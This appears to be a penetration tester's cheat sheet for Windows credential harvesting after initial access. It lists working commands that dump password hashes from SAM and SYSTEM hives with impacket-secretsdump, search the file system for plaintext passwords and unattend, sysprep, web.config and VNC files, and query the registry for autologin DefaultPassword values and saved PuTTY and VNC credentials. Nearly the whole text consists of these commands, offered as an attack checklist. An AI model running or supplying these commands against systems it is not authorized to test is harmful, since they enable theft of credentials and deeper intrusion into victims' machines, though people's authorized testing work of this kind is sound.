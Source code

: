 - Obtaining Hashes from SYSTEM and SAM

```bash
# always mention local in the command
impacket-secretsdump -system SYSTEM -sam SAM local 
# Now a detailed list of hashes are displayed
```

## Sensitive files

```bash
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*
```

## Config files

```bash
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini
```

## Registry

```bash
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

# Putty keys
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
# Check the values saved in each session, user/password could be there
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" 

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

# Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

```